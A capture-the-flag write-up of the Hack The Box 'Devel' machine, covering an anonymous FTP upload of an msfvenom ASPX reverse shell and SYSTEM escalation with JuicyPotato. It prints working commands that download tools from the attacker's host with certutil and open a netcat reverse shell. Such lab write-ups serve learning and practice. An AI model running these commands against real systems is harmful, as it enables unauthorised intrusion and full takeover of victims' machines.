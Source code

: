 ```yaml
---
layout: post
title: Hack The Box - Devel Writeup
date: 2024-06-07 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```



![develBadge.png](/assets/img/Devel/develBadge.png)

## Summary

Using anonymous login to `ftp` server I got access to web root of `IIS`. It is possible to upload reverse shell via `ftp` and trigger it by accessing it on port 80. While enumerating system as web `user`, I discovered that this user has `SeImpersonatePrivilege` enabled. To exploit this I used `JuicyPotato` in conjunction with the `nc.exe` to get reverse shell with `system` privileges. 

___
## Reconnaissance

### Nmap

```bash
nmap -sV -sC -oN ./nmap.txt 10.10.10.5
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 21, 80 |

#### Port 21

##### Anonymous Login

```bash
ftp anonymous@10.10.10.5
```

![ftpAnonym.png](/assets/img/Devel/ftpAnonym.png)

After logging in anonymously, it looks like I have access to `IIS` web root. 

#### Port 80

##### Technology

![technology.png](/assets/img/Devel/technology.png)

##### Website

![port80.png](/assets/img/Devel/port80.png)


___
## Initial Foothold

### Uploading reverse shell via FTP

If I am able to upload reverse shell via ftp to web root then we I access it on port 80 which will trigger it.

First I created malicious file using `msfvenom`. We know that website is using `Microsoft ASP.NET` framework so I used `.aspx` shell.

```bash
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.38 LPORT=7003 -e x86/shikata_ga_nai -o shell.aspx
```

Next I uploaded `shell.aspx` to web root of server. 

![ftpUploadShell.png](/assets/img/Devel/ftpUploadShell.png)

To trigger reverse shell I accessed uploaded shell on port 80. 

![shellAccess.png](/assets/img/Devel/shellAccess.png)

![reverseSHell.png](/assets/img/Devel/reverseSHell.png)
_____
## Privilege Escalation

### System Enumeration

While checking privileges for current user, I discovered that `SeImpersonatePrivilege` is enabled. There are multiple ways to exploit this so first I checked type of system which is this machine based on. 

```shell
whoami /priv
```

![whoamiPriv.png](/assets/img/Devel/whoamiPriv.png)

```bash
systeminfo
```

![systeminfo.png](/assets/img/Devel/systeminfo.png)

We can see that machine is `x86` based so we need to use exploit compatible with this architecture.
### Abusing SeImpersonatePrivilege - Juicy Potato

For privilege escalation I used [`JuicyPotato`](https://github.com/ivanitlearning/Juicy-Potato-x86) in conjunction with the [`nc.exe`](https://github.com/int0x33/nc.exe/) to get reverse shell with `system` privileges.

First I downloaded files from my local machine using `certutil`.

Creating web server on my local machine:
```bash
python3 -m http.server 7004
```

Downloading files to victim machine:
```bash
certutil -urlcache -split -f "http://10.10.14.38:7004/Juicy.Potato.x86.exe" Juicy.Potato.x86.exe
```

```bash
certutil -urlcache -split -f "http://10.10.14.38:7004/nc.exe" nc.exe
```

![juicyDownload.png](/assets/img/Devel/juicyDownload.png)

When all needed files are present on the system we can get reverse shell using this command:
```bash
.\Juicy.Potato.x86.exe -l 7007 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.38 7005" -t * 
```

![escalation.png](/assets/img/Devel/escalation.png)

![systemShell.png](/assets/img/Devel/systemShell.png)

___
## Post Exploitation

### User.txt

![systemShell.png](/assets/img/Devel/userFlag.png)

### Root.txt

![rootFlag.png](/assets/img/Devel/rootFlag.png)
